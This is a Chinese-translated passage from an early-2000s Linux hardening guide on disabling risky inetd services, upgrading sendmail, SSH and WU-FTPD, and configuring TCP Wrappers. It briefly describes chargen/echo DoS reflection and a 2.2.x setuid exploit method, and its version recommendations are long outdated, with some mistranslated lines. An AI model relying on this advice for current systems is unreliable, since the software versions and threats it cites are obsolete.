注 24：在新版内核上，可以使用 `cat /proc/sys/fs/file-max /proc/sys/fs/inode-max` 查看当前设置，或使用 `echo 4096 > /proc/sys/fs/file-max` 更改它们。我的 2.2.12-20 内核设置为最大 4096 个文件。它允许我使用 `echo` 将其增加到 4097，但不能再多。在我看来，这是一个 off-by-one bug。

### 用砖块替代这些薄弱的门

危险等级

这是两个用于网络和系统测试的无害服务。`echo` 端口简单地回显发送到它的所有数据以测试连通性。`chargen` 端口（character generation，字符生成 的缩写）输出可打印字符的轮换序列，用于测试 tty 设备以及需要已知且变化的序列的其他情况。

即使是这些也可能被破坏者利用，因此应禁用它们。`echo` 和 `chargen`（字符生成）的 UDP 版本可用于针对第三系统的 DoS 攻击。破坏者只需将其源地址伪装为受攻击系统的地址，并通过你的系统向该第三系统发送数据包即可。

破坏者可以让系统 X 通过 `telnet` 连接到系统 Y 的 `chargen` 端口，然后走开，让 Y 使用两者中较小的“管道”（带宽）向 X 发送无限数据，以互联网为界。

危险等级

这些守护进程允许可能在不同系统上的两个用户彼此通信。这允许轻微 DoS，让远程系统上的人向你的用户屏幕发送数据。除非你打算使用它并设置 TCP Wrappers 来保护，否则关闭它。这种功能现在使用得越来越少，更倾向于 ICQ 和 AOL Instant Messenger。有几个 Linux RPM 可用于支持这些。`GAIM` 是 America Online 的即时通讯协议的开源实现。可以从 CD-ROM 或以下地址下载：

http://gaim.sourceforge.net/index.php

也有 Linux ICQ 客户端。

## 2.12.10 关闭 TFTP

危险等级 💀💀💀💀

`TFTP` 是 *Trivial FTP* 服务器。它多年前被创建，旨在成为类似 FTP 但协议更简单的服务器。其目的是允许客户端端易于在 ROM 中实现，以便没有本地磁盘的系统可以通过网络启动。由于内存限制，它现在不再使用。它不安全，应禁用。大多数发行版中它已被禁用。它也应该在防火墙处被阻止。

## 2.12.11 关闭 systat 和 netstat

危险等级 💀💀💀

与 `finger` 一样，*systat* 和 *netstat* 来自一个更温和的互联网时代。*systat* 服务（意味着系统状态）简单地调用 `/bin/ps -auwwx`。*netstat* 服务（意味着网络状态）调用 `/bin/netstat -a`。应禁用它们，或使用 TCP Wrappers 或 IP Chains 阻止来自受信任网络以外的访问。如果你合理信任用户家庭系统的安全性，你可能希望允许他们调用这些命令，以便他们检查其作业的状态。如果被调用命令的命令行上可能存在密码等机密数据，则不应这样做。

## 2.12.12 关闭内部 xinetd 服务

危险等级 💀💀💀💀

大多数 Linux 发行版启用了各种内部 `xinetd` 服务，这些服务可用于对你系统和第三方的 DoS 攻击。这些包括 *echo*（端口 7）和 *chargen*（端口 19）。`echo` 服务回显发送的内容，而 `chargen`（character generation，字符生成 的缩写）发送无限数量的 ASCII 字符，用于测试 tty 设备。虽然这些在旧时代很有用，但最好禁用它们和其他简单服务，如时间服务，`daytime`（13）和 `time`（37）。

## 2.13 为新旧换新


# 危险等级

你确实想要用新的（这些程序的新版本）替代旧灯（旧版本），以免破坏者遇到你的旧灯并摩擦它直到一个精灵出来并满足他三个愿望：

- 1. 拥有你的系统
- 2. 出名（如果你的站点很大）
- 3. 让 SysAdmin“被叫去责问”

直到 2002 年夏季，流行的 `Linux` 发行版中这些程序的一些存在安全漏洞。此外，这些程序中每年都会发现新的漏洞，因此持续关注附录 C 中讨论的安全列表至关重要。接受漏洞将持续出现在所有软件中（包括 `Linux`）这一事实很重要。尽管我发现 `Linux` 的漏洞率远低于其他平台，但立即加入各种漏洞跟踪列表（在别处讨论）并及时更新软件至关重要。本节讨论的具体问题可能在你阅读时已过时。

所有 `Linux` 发行版都比企业和个人开始认识到漏洞成本的严重性更加严肃对待，并承担着严重财务损失的真实可能性。多年来，它们都维护了一个邮件列表，以便在安全补丁可用时通知 SysAdmins。除非使用了更先进的方法，我认为加入邮件列表是强制性的。当发现某个程序的漏洞时，破坏者和 SysAdmins 之间就是一场竞赛，看谁先到达易受攻击的系统。

有些破坏者建立了包含 IP 地址列表以及那些位置使用的软件版本的数据库。当发现特定程序的漏洞时，破坏者可以扫描其数据库，找到可以轻易被破坏的系统。快速安装易受攻击软件的补丁至关重要；因此，`Red Hat`、`Mandrake` 和 `SuSE` 都具有半自动更新。虽然有些人喜欢自动更新，但我更倾向于决定是否安装补丁。如果我不使用某个程序，我可能会简单地将其从磁盘上删除，而不是安装补丁。

历史数据的占多数表明，如果一个程序有一个问题，它很可能会有另一个。普通人使用其系统上不到 10% 的程序，为什么要留着一个有 bug 的程序？通过删除未使用的程序并限制更新，你的更新速度将会更快。

不幸的是，目前所有发行版在更新时仍然仅使用 `FTP` 而非 `SFTP`。希望这种情况能有所改变。

`SuSE` 正在转向使用补丁包而非完整包进行更新。这为低带宽连接的用户提供了便利。

`Red Hat 7.3` 为其更新程序提供了一个精美的图形用户界面。它还在屏幕底部的工具菜单中为 `up2date` 提供了一个图标。在进行工作站安装时，系统会询问是否配置系统以自动检查更新（我强烈推荐这样做）。默认情况下，它每两小时检查一次。此检查仅确定是否有可用的新更新，而不会下载它们。也许它只是交换一个时间戳。

`Up2date` 不会自动安装包，但当有安全补丁可用时，图标会从绿色对勾变为红色感叹号。点击 `!` 图标会弹出更新窗口。此时，点击 `up2date` 按钮会导致它下载有关任何可用新补丁的详细信息。它加载的是补丁的摘要，而不是补丁本身，但它是这样做的。

`Red Hat` 在设计上花了不少心思，尽可能使该过程变得无痛，以便人们能更好地进行更新。这符合所有人的利益。`Update` 按软件包名称列出更新。点击一个软件包，它会解释该软件包的功能。软件包太多了，没人能知道它们所有做什么。如果一个应用程序不是 `set-UID` 并且不是由 `root` 或其他特权用户调用的，除非它解释来自互联网的数据，否则其威胁性要小得多。

点击 `Advisory`（公告）以了解问题所在。您可以选择任何组合的软件包进行下载和安装，或者点击“选择所有软件包”按钮。点击“下一步”将启动下载和安装过程。此过程是自动的，因此在软件包下载和安装时，您可以做其他事情。运行时会显示进度条。

然而，该软件并不完美。在下载过程中，软件多次停滞。这迫使我使用 `ps` 命令找到要终止的进程（`Python` 进程）以恢复系统。图标消失了，系统询问我是否希望重新启动它。我点击了“是”，并能够重启该进程。

`Mandrake` 和 `SuSE` 拥有类似的更新功能，尽管可能不如 `Red Hat` 的那么精美。无论您选择自动更新、半自动更新（我更喜欢这种方式，以便控制系统变更），还是通过邮件列表手动更新，保持最新状态都至关重要。没有软件是毫无漏洞的。我无法强调得足够多，快速应用针对特定漏洞的安全补丁以最小化黑客的机会窗口是多么重要。

`up2date` 和厂商提供的更新工具有替代品。`Autoupdate`（[http://fresh.net/projects/autoupdate/](http://fresh.net/projects/autoupdate/)）和 `AutoRPM`（[http://fresh.net/projects/autorp/](http://fresh.net/projects/autorp/)）适用于任何基于 `rpm` 的发行版，并且可以从周日开始以六种方式进行配置。它们将检查、比较版本、解析依赖项、下载并安装系统中更新的 `RPM` 包。当您有一台计算机作为网络上其余计算机的存储库时，使用这些工具相对容易。对于重度图形用户，`XimianRedCarpet` 服务器可以像 `up2date` 一样有效地处理系统更新。

## 旧瓶新酒

`Linux` 安全的未来是什么？`Linux` 的优势在于拥有一个设计良好的安全模型，并且大多数代码编写精良。这包括为普通用户提供特权限制以及分离子系统的功能，从而可以简单地移除或不需要使用那些不需要的部分。这使得子系统中的任何漏洞都变得无关紧要。对构成 `Linux` 的所有代码进行的代码审计已经持续了几年；发现的问题是已知事实。

一些以前以 `root` 身份运行的麻烦子系统，如域名服务 `DNS` 守护进程 `named`，可以在受限环境中以普通用户身份运行，并且应该这样做。这样，如果遇到缓冲区溢出或其他漏洞，只有该子系统会受损，而不是整个系统。此外，最近已在 `Linux` 的应用层中构建了安全特性。`Apache` 有一些限制普通 `HTML` 能做什么的特性。`Sendmail` 有一个用于运行程序的受限 `shell`。该 `shell` 限制了别名文件或用户的 `.forward` 文件中允许执行的指令。除非明确覆盖，否则 `Sendmail` 将拒绝信任组可写或全局可写目录中的数据，以防止系统管理员的配置错误导致系统被入侵。

对 `Linux`（以及之前的 `UNIX`）的一个主要批评是，许多有趣的事情需要 `root` 访问权限才能正常工作，因此，以 `root` 权限运行的程序中的一个错误可能会危及整个系统。从 2001 年开始，通过内核不断演化的功能 `Capabilities` 开始了解决此问题的努力。这允许仅为各种程序授予 `root` 权限的一个子集（甚至是普通用户的权限）。一个典型的例子是希望监听一个知名端口号（1024 以下）的服务器。只有 `root` 被允许开始监听这样的端口，因为客户端信任此类服务器来处理密码和数据。

某些程序，如 `named` 和 `Apache`，可以被告知尽早打开其分配的端口，然后放弃 `root` 权限。这是为了防止程序后续出现的错误导致 `root` 权限被入侵。一个更好的解决方案是使用功能 `Capabilities` 仅授予它们对端口的 `root` 权限。虽然您可以现在使用此功能，但预计在未来的版本中它将成为标准。

在 `Red Hat` 的早期版本中，用户被设置为 `nobody`。在后续版本中，创建了 "`apache`" 用户和组，以更好地将 Web 服务器用户的访问权限与其他用户（尤其是 `root`）分离。但必须记住，如果系统的主要功能是作为 Web 服务器，那么“金子”（即重要数据）由 `apache` 用户拥有，其安全性与 `root` 同样重要。

关于如何控制您的 `DNS` 守护进程 `named` 的说明在第 149 页“`DNS` (`named`, 又称 `BIND`)”章节中。您将会找到设置 `named` 以作为常规非特权用户运行的说明，这样如果它被入侵，损害将被隔离。

### 2.13.1 升级您的 2.4 内核

**危险等级：💀 💀 💀**

`2.4` 内核仍然不够成熟。从 `2.2` 到 `2.4` 的一个主要变化在于 `IP Tables` 区域，其中包含复杂的代码。我认为 `Tables` 并不成熟，偶尔仍会发现其中的错误。其他变化领域涉及内存分配，其中的错误可能会导致缓冲区溢出风险。

对于某些人来说，稳定的 `2.2` 内核可能提供更安全的解决方案。对于其他人来说，在 `2.4` 内核下使用 `IP Chains` 可能提供最安全的解决方案。安全的一般规则是不要信任最近的更改；相反，让其他人通过艰难的方式发现它们是否安全。例外情况是，如果某个功能是必需的，或者它替代了更麻烦的旧组件。

### 2.13.2 升级您的 2.4 内核

**危险等级：💀 💀 💀**

2000 年夏天发现，内核版本 `2.2.15` 和一些更早的 `2.2.x` 版本存在一个严重错误。有些人仍在使用这些内核版本。该错误允许本地黑客阻塞 `setuid()` 系统调用，而一些特权程序（如 `sendmail`、`Apache` 和 `procmail`）使用该调用将其有效 `UID` 从 `root` 更改为普通用户的 `UID`，以代表该用户执行非特权操作。利用方法是禁用 `CAP_SETUID` 权限调用 `sendmail` 或类似的 `set-UID` 程序。错误在于 `setuid()` 请求被拒绝，但没有返回错误。（即使返回了错误，以 `root` 身份运行的程序“有权”期望此调用成功，并且不会费心去检查是否返回了错误。任何破坏这种预期的行为都破坏了兼容性，必须被视为错误。）


除了 2.2.15，已知该漏洞可被用于利用 Linux 2.2.14-5.0 (Red Hat 6.2)。利用工具已经存在。Apache 和 procmail 可能为黑帽提供利用此漏洞的流行机制。建议立即升级到 2.2.16 或更高版本。保护系统免受通过 sendmail 利用此漏洞攻击的变通方法可在以下地址找到：

```
ftp://sendmail.org/pub/sendmail/sendmail.8.10.2.tar.gz
```

此 sendmail 变通方法并不保护系统免受通过这些其他程序利用漏洞的攻击。为了保护它们，内核需要升级到 2.2.16 或更高版本。

## 2.13.3 升级 sendmail

危险等级

sendmail 程序非常复杂，除了最新版本外，其他版本都存在许多众所周知的安全漏洞。为了安全起见，升级是必须的。最新版本还包含反垃圾软件。有一些 sendmail 的替代品，例如 small，声称配置更简单且可能更安全。由于 sendmail 在许多地方被使用，我认为它是一个更稳妥的选择。

过去许多系统都通过 sendmail 的漏洞遭到入侵。这些漏洞中的许多涉及缓冲区溢出，诱骗 sendmail 调用攻击者选择的程序，而不是预期的程序；而在更早的过去，甚至向入侵者提供 root shell。为它辩护的话，它是 1980 年左右由伯克利的 Eric Allman 编写的，那时互联网规模小得多且更友善。它必须在不同用户之间移动，与只有 root 通常才被允许监听的 TCP 端口通信，对某些操作使用权限，解析一套无法想象且奇怪的寻址方法，并且必须接受来自世界上任何系统的电子邮件。它还必须分叉各种程序并提供各种调试选项。

由于 sendmail 是黑客和垃圾邮件发送者的热门目标，至关重要的是您始终将其升级到较新的版本。除了修复过去的漏洞外，您还可以享受其持续改进带来的好处。来自 Sendmail, Inc. 的商业版 sendmail 价格相对合理。

配置 sendmail 的方法可以不要求其以 root 身份运行。如果这种配置的限制可以接受，这确实降低了任何被发现的剩余漏洞的严重程度。

如果您的 sendmail 版本早于 8.9.3，则存在已知的缓冲区溢出漏洞，您将容易受到攻击。请注意，主要的反垃圾功能是在 sendmail 8.9 版本中引入的，并且它还包含反中继功能。目前我认为 8.12.4 是 sendmail 最低可接受的版本。

sendmail 8.12 版本可用，强烈建议您现在就在您的系统上安装它。它可以从 CD-ROM 和网站获取；可以下载：

```
ftp://sendmail.org/pub/sendmail/sendmail.8.12.4.tar.gz
```

8.12 的某些近期特性包括 SMTP 身份验证、LDAP 支持以及用于并行处理的多队列，以增强性能。SMTP 身份验证包括一个可选密码，将您的服务器限制为仅接受来自特定发送系统的电子邮件，并比以前的版本具有更强的垃圾邮件拦截能力。新的身份验证级别允许添加数字签名和加密的安全层。

要确定您的某个系统（例如 mail.pentacorp.com）正在运行的 sendmail 版本，只需对其端口 25 进行 telnet，通常其 sendmail 会告诉您。

```
telnet mail.pentacorp.com 25
220 mail.pentacorp.com ESMTP Sendmail 8.12.4/8.12.4; 6 Sep 2002
quit
221 mail.pentacorp.com closing connection
Connection closed by foreign host.
```

mail.pentacorp.com 的 sendmail 是 8.12.4 版本，其 sendmail.cf 说明它适用于 8.12.4 或更高版本。

一个有趣的新特性是能够限制电子邮件允许的收件人数量。这阻止了一种流行的垃圾邮件技巧，即猜测常见的名字（如名字和常见姓氏）并在电子邮件中列出数百个这样的名字。它还更智能地分析邮件头以剔除垃圾邮件发送者。支持虚拟主机。请注意，一些反垃圾邮件功能在以前的版本中以更有限的形式或通过各种补丁提供过。

其 AUTH 命令（新的 SMTP 身份验证的一部分）允许您的出差人员从否则不可信的远程站点（例如 gmail 或 yahoo）生成电子邮件时进行身份验证，并从您的 sendmail 服务器享受完整服务，同时该服务器仍然可以阻止来自该服务器的垃圾邮件甚至所有其他电子邮件。

8.12 版本提供了一个“内容管理 API”，允许您让所有电子邮件消息通过您选择的独立进程。它可以用于过滤含有不良内容（如垃圾邮件和病毒）的消息。它也可能用于归档特定类型的消息。美国证券交易委员会要求其管辖范围内的公司执行此操作。它也可以用于实现公钥加密或签名。

获取 sendmail 的最佳地点是获取您的 Linux 发行版的地方，如果它是最新版本，或许在他们的网站上。这是因为他们可能已经调整了路径名以适应其特定配置，例如 sendmail.cf 文件位于 `/etc` 还是 `/usr/lib`。否则，请查看 sendmail.com、sendmail.org 或 sendmail.net。

> 此处仅简要提及 sendmail 安全性，针对最紧迫的需求。

> 许多重要的 sendmail 问题在第 122 页的“Sendmail”中有所涵盖。

## 2.13.4 强化 sendmail 以抵抗 DoS 攻击

危险等级

有许多 DoS 攻击只是通过向系统发送大量数据包（称为数据风暴）来淹没系统。还有一些旨在消耗除带宽以外的系统资源，例如磁盘空间或内核表。一种流行的方法是向您发送大量垃圾电子邮件以填满您的磁盘并浪费您的 CPU 时间、进程表插槽等。无论目标是使您的系统瘫痪还是用虚假的快速致富计划骚扰您的用户，都有方法可以抵抗。

如果邮件发送速度非常快，在分叉子进程处理每封电子邮件的过程中，sendmail 可能会耗尽系统进程。这是因为 sendmail 不会等待一个进程处理完一封电子邮件才开始下一个，再接下一个，等等。Sendmail.com 建议将表 2.4 中显示的变量值作为调优的起点，以使其更抵抗 DoS 和垃圾邮件攻击。这些建议中的大部分或全部也适用于 sendmail 的后续版本。这些值应设置在 `/etc/sendmail.mc` 中。如果列出的某个“M4”变量（例如 `confMIN_FREE_BLOCKS`）尚未在 `/etc/sendmail.mc` 文件中，则应类似地定义它：

```
define(`confMIN_FREE_BLOCKS', `100')
```

然后发出以下 shell 命令将 `/etc/sendmail.mc` 文件转换为 `/etc/sendmail.cf`：

```
m4 /etc/sendmail.mc > /etc/sendmail.cf
```

可以重启 sendmail 以使其使用新值。在 Red Hat 及其衍生系统中，使用以下命令完成。在其他系统（如 Slackware）中，系统重启是重启 sendmail 的简便方法；发送 HUP 信号并发出在 `/etc/rc.d/rc.M`（可通过 grep 找到）中使用的 sendmail 调用命令是一种替代方案。

```
/etc/rc.d/init.d/sendmail restart
```

更多 sendmail 配置改进在第 122 页的“Sendmail”中有所涵盖。

## 2.13 旧瓶新酒

### 表 2.4 Sendmail DoS 强化（续）

| 变量 | 描述 | 推荐值 |
| :--- | :--- | :--- |
| `confMAX_MIME_HEADER_LENGTH` (`MaxMimeHeaderLength`) | 某些 MIME 头字段值的最大长度。 | 1024 或更少 |
| `confMAX_RCPTS_PER_MESSAGE` (`MaxRecipientsPerMessage`) | 如果设置，允许 SMTP 信封中的收件人数量不超过指定数量。进一步的收件人将收到 452 错误代码（即，它们被推迟到下一次投递尝试）。 | 10–100（取决于您的站点策略） |



解决这个“sendmail 连接洪水”问题的非平凡方法是增强 sendmail 以将来自任何单一系统（或网络）的最大打开连接数限制为更小的数量。来自异常来源的任何额外连接将立即关闭。

这可能涉及一个将未决连接的 PID 与所连接系统的 IP 地址关联的表，以便在新连接创建时进行轻松处理。一个可能的位置是在 `daemon.cron` 中 `accept()` 之后。只需遍历该表，计算来自相同 IP 的其他连接。


如果计数超过阈值（默认为总限制和命令行上表格的三分之一），则 `SO_LINGER` 设置为零并关闭套接字。此更改应由经验丰富的 C 程序员花费八小时完成。修改 sendmail 的替代方案是使用具有此限制系统连接数功能的有状态防火墙。连接及其各个阶段还有更短的时间限制（超时）；典型的默认超时时间为 1 小时，但这过于长。检查并修改以下文件中以 `o Timeout` 开头的行（可能被注释掉）：

```
/usr/lib/sendmail-cf/m4/proto.m4
```

特别是大多数设置为 `ih` 的超时。虽然很久以前 `ih`（1 小时）可能很有意义，但许多安装中 10 KB 的消息就足够了。如果消息花费的时间超过这个，这可能表明网络不稳定，最好断开连接，以便发送方在网络拥塞清除后可以重试。

如果 `SO_LINGER` 不为零，内核将保持连接打开一分钟，因为可能有人想要连接。这避免了可能生成进程的开销。这是不必要的。

对 sendmail 的增强措施是拒绝接收收件人数量过多的整封电子邮件，而不是将投递推迟给额外的收件人。

## 2.13.5 升级 SSH

危险等级 ☠☠☠☠☠☠☠

开源 SSH 存在许多安全漏洞，www.ssh.com 版本中存在的漏洞较少。由于该程序拥有极高的信任地位（root 密码访问权限），密切关注补丁更新至关重要。尽管如此，它仍然优于任何其他远程访问方式。不过，切勿使用 ssh1；它存在设计缺陷。

解决方案是升级。可以从以下地址获取：

- www.ssh.com
- www.openssh.com

## 2.13.6 升级 WU-FTPD

危险等级 ☠☠☠☠☠☠☠

大多数 Linux 发行版使用 WU-FTPD 程序，这是华盛顿大学开发的一个使用极为广泛的 ftppd 实现。几乎每年都有安全漏洞被发现，并且有不少站点被入侵。WU-FTPD 开发人员强烈建议系统管理员（SysAdmins）保持其版本最新。

最好从您的 Linux 发行商那里获取更新，但如果这不可行，则可以从以下站点或您附近的镜像站点下载。

- ftp://ftp.wu-ftpd.org/pub/wu-ftpd/

> 请注意，WU-FTPD 的原始主页 warchive.wustl.edu 不再支持或维护它，因此不应使用该站点。常见问题解答（FAQ）和镜像站点列表可以从以下地址获取：
>
> - ftp://ftp.wu-ftpd.org/pub/wu-ftpd/wu-ftpd-faq.txt

对于涉及更复杂的 FTP 安全问题的解决方案，请参阅第 138 页的“FTP”。

## 2.13.7 升级 Netscape

Linux 平台上 4.73 之前的 Netscape 客户端版本存在多种安全漏洞，不应使用。建议所有使用 Netscape 的用户升级到最新的非测试版（non-beta）版本。

包括 4.72 及更早版本的 Netscape 浏览器在 SSL（安全套接字层）实现中存在一个漏洞，该漏洞允许入侵者欺骗 Netscape 接受伪造的证书。随后，入侵者可以获取 Netscape 用户的机密数据，例如她的电子银行密码或信用卡号，进而冒充她进行资金提现或使用信用卡消费。实际上，攻击者利用此漏洞并非易事，因此不太可能影响许多人。但一名坚定且知识渊博的黑客可能会能够利用它。解决方案是升级到 Netscape 4.73 或更高版本。该问题于 2000 年 5 月 10 日在 Bugtra 上报道，并得到了详细解释。

有一份未经证实的报告称，Netscape 4.72 及更早版本使用 `open()` 以 666 模式在 `/tmp` 创建临时文件，并且也未能使用 `O_EXCL` 标志。这是在为 SSL 操作创建证书时发生的。随后当它执行 `fchmod()` 将模式更改为 0600 时，存在一个微小的时间窗口，允许任何用户向该文件写入数据以破坏它。`O_EXCL` 标志要求该文件之前不能存在。由于未使用 `O_NOFOLLOW`，Netscape 易受符号链接攻击。这意味着任何用户都可以猜测将要使用的文件名，并放置一个指向文件系统中任何位置的符号链接。

如果调用 Netscape 的用户具有写入权限，符号链接指向的现有文件将被截断。如果之前没有文件，则会创建一个新文件。如果 root 调用 Netscape，闯入者可以在文件系统的任何位置截断或创建文件。由于撰写本章时关于此漏洞的知识尚属最新，因此无法引用固定的受影响数量；请查阅网络获取最新信息。

关于 Netscape 安全性的最新信息可从以下地址获取

- http://home.netscape.com/security/notes/index.html

新版 Netscape 可从以下地址下载：

- http://home.netscape.com/download/

Larry Gee 报告称，从以下地址安装 Java 插件后：

- www.blackdown.org/

使用随 Netscape 附带的标准 Java 获得了更好的运行效果。

## 2.13.8 屏蔽网络广告

危险等级 ☠ ☠ ☠

虽然提供有用信息的网站试图通过广告回收成本无可厚非，但自 1999 年初以来，广告似乎呈爆炸式增长。其中很大一部分是通过 DoubleClick 进行的，该公司似乎并没有足够的带宽来“迅速获得这笔收益”。此外，有可信的指控称 DoubleClick 使用了它接收到的信息；这些指控严重到目前正由新泽西州检察长办公室进行调查。

尽管网站有权打广告，但您有权屏蔽它们。以下 IP Chain 命令将阻止这些请求。（重要的是要阻止源自浏览器的请求，而不是阻止回复，因为后者会导致浏览器等待可能永远不会到来的回复。）

```
ipchains -A output -i eth0 -d 199.95.207.0/24 -j REJECT
ipchains -A output -i eth0 -d 199.95.208.0/24 -j REJECT
ipchains -A output -i eth0 -d 204.253.104.0/24 -j REJECT
ipchains -A output -i eth0 -d 208.184.29.0/24 -j REJECT
ipchains -A output -i eth0 -d 208.211.255.0/24 -j REJECT
ipchains -A output -i eth0 -d 209.67.38.0/24 -j REJECT
```

这些基于以下信息：

- comp.os.linux.security FAQ:
- www.geocities.com/swan_daniel/colsafaq.html

由于这些地址并非永久不变，您需要查看常访问页面的源代码中指向广告商的链接，以及 Netscape 窗口底部闪烁的 URL。然后您可以使用包含这些主机名 IP 地址的 `ipchains` 调用驱赶这些恶魔。您可以通过调用 `ping` 来确定任何主机的 IP 地址。您不需要等待数据包返回，只需等待显示地址即可。

许多网络问题的一个优秀解决方案是使用 Squid、Squidguard 和 Junkbuster。

## 2.14 统一则倒下，分裂则站立

危险等级

系统的安全性取决于其最薄弱的服务。建议将您的服务进行划分，使安全性较低的服务（如 FTP 和 telnet）与安全性更高且关键的服务（如 SSH 和 http）位于不同的系统上。这样，如果安全性较低且非关键的服务被破解，该事件就不应影响您更关键的服务。您还可以将更机密和关键的数据与较少机密的数据放在不同的系统上。类似地，您可能允许更广泛访问的数据最好放在单独的系统上，以便其他系统可以实施更严格的防火墙和 TCP Wrappers 规则。

显然，如果采用这种安排，您将需要确保如果安全性较低的服务被破解，它们不会对更安全系统拥有任何特殊访问权限。换句话说，运行在更安全系统上的防火墙、TCP Wrappers、告警软件应防范从您安全性较低系统发起的黑客尝试。特别是如果您运行一个拥有高带宽互联网接入（T1 或更高）的大型站点，您还需要防范安全性较低的系统被破解后被用于向互联网上无关系统发起攻击。在考虑使用 NIS（黄页服务）之前，请彻底研究其安全性。

一些建议的职责划分见第 78 页的“内部公司防火墙以遏制火灾”。

## 2.15 TCP Wrappers

TCP Wrappers 是一个程序和一对配置文件，允许系统管理员在由 `/etc/inetd` 管理的原始 TCP 和 UDP 套接字层与实现每项服务的应用程序（服务器）之间包裹一层安全层。这个 TCP Wrappers 层可以控制哪些远程系统和用户可以访问每项服务，例如，防止未知系统使用 FTP 服务。TCP Wrappers 还关闭 TCP 套接字（但不包括 UDP 套接字）任何可能的源路由，以消除大多数 TCP 协议级别的欺骗。这一防欺骗主张假设您至少使用 Linux 内核的 2.0.30 版本。


请注意，虽然只有由 `xinetd` 启动的服务才能直接由 `tcpd` 保护，但现在有一个“TCP Wrappers 库”（`libwrap`）供那些不由 `xinetd` 调用的守护进程使用。这些守护进程通过链接解析并允许 `hosts.allow` 和 `hosts.deny` 配置文件的 TCP Wrappers 库例程来实现 TCP Wrappers。`hosts.allow` 和 `hosts.deny` 文件应由 `root` 拥有，且模式为 `600`。这将防止黑客查看您信任的内容，以免他首先入侵这些信任对象之一，再利用您对它们的信任来入侵您的系统。

同样，也鼓励使用 IP Chains。

在支持 TCP Wrappers 的较新版本守护程序中，包括 `lpd`、`SOCS` 服务器（支持局域网中使用 Netscape 或其他服务的其他系统）、`SSH` 和 `portmap`。截至撰稿时，`lpd` 和 `SOCKS` 的增强版本似乎并未包含在流行的发行版中，因此您可能需要在网络上搜索它们并进行编译和安装。

请注意，由于 `lpd`、`SOCS` 和 `portmap` 都非常普遍且成功，这是一个应该行使的有价值的安全选项。如果没有 `libwrap` 增强功能，`lpd` 和 `sockd` 分别依赖其自身的配置文件 `/etc/hosts.lpd` 和 `/etc/sockd.conf` 来限制访问。然而，`lpd` 中存在缓冲区漏洞。如今，TCP Wrappers 几乎标准地附带于所有发行版。不过，您可以从其作者位于以下地址的网站下载源代码

- `ftp://ftp.porcupine.org/pub/security/tcp_wrappers_7.6.tar.gz`

如果您选择下载它，需要小心，因为网络上有流传的版本包含木马，该木马从 TCP 端口 `421` 接收黑客指令。如果您有任何疑虑，请使用 `ports` 程序验证您没有运行这个木马版本。

TCP Wrappers 设置非常简单且运行良好。由于每个连接都需要 `fork` `tcpd` 并读取配置文件，其开销比 IP Chains 大得多。此外，它仅适用于从 `xinetd` 启动的服务以及少数支持 `libwrap` 的服务。因此，它不像 IP Chains 那样是完整的解决方案，也不适用于高流量站点。它是低流量使用（如家庭系统和小型公司）以及公司内单个工作站的良好解决方案。自适应防火墙和黑客陷阱（Cracker Trap）都是围绕它构建的。

## 2.15.1 TCP Wrappers 的使用

在 `/etc/inetd.conf` 文件中，每行的第六个字段是用于调用请求服务的程序。其中许多程序以 `in` 开头；一些程序包括 `impd`、`pop3d` 和 `in.telnet`。紧随该字段之后的是传递给程序的参数。TCP Wrappers 的工作原理是用 TCP Wrappers 守护程序的名称（通常是 `/usr/bin/tcpd`）替换该程序。预期服务变为 `tcpd` 的第一个参数，而原程序的参数则变为 `tcpd` 的后续参数。`xinetd` 的工作方式也是如此。

`tcpd` 会确定请求服务的客户端的数值 IP 地址和主机名，以及客户端系统标识提供（如果有的话）的用户名。然后，`tcpd` 会查询其两个配置文件 `/etc/hosts.allow` 和 `/etc/hosts.deny`，并决定是否允许该服务。如果允许该服务，程序将被执行。如果被拒绝，客户端将被要求离开，连接被关闭，并且事件将被记录。每个配置文件每行包含一个条目，这些条目中的字段用冒号（`:`）分隔。为了获得最大安全性，`/etc/hosts.allow` 和 `/etc/hosts.deny` 文件应仅允许 `root` 读取。

第一个字段是适用于此行条目的服务的空格分隔列表。如果程序名称包含斜杠 (`/`)，则为最后一个斜杠之后的名称。这不是 `/etc/services` 中指定的服务名称。通配符 `ALL` 匹配所有服务。

第二个字段是主机的空格分隔列表。主机可以通过 `/etc/hosts` 或 DNS 命名。可以指定命名字域，例如：

```
.berkeley.edu
```

将匹配 `cory.berkeley.edu`。数值网络可以通过使用点分四元组但省略主机部分来指定。例如，`192.168.*.*` 类 B 网络可以通过以下方式匹配：

```
192.168.
```

接受地址/掩码格式。上述网络也可以通过以下方式指定：

```
192.168.0/255.255.0.0
```

通配符 `ALL` 匹配所有主机；通配符 `LOCAL` 匹配名称中不包含点的所有主机。

通配符 `KNOWN` 和 `UNKNOWN` 分别匹配那些名称已知和那些 DNS 查找失败的主机。失败可能是因为使用伪造 IP 地址的黑客，也可能是暂时的 DNS 问题或超时。`EXCEPT` 运算符意味着除了列出的内容以外的所有内容。例如，这可能需要用于启用或禁用网络的一部分。

在没有特殊操作的情况下，`/etc/hosts.allow` 中第一个匹配的行授予服务。如果没有匹配，则测试 `/etc/hosts.deny` 中的行（如果有）。

如果有任何匹配，服务将被拒绝。如果这些都不匹配，服务将被允许。因此，对于大多数封闭系统（这是推荐的），`/etc/hosts.deny` 中应该有如下行：

```
ALL: ALL
```

如果服务被拒绝，将生成 `syslog` 条目，列出与被拒绝服务相关的程序名称、PID 以及被拒绝的客户端系统。例如，如果 `cracker.com` 试图使用 `in.telnet`，日志条目可能如下所示：

```
Sep 7 06:14 pentacorp.com in.telnet[5196]: refused connect from cracker.com
```

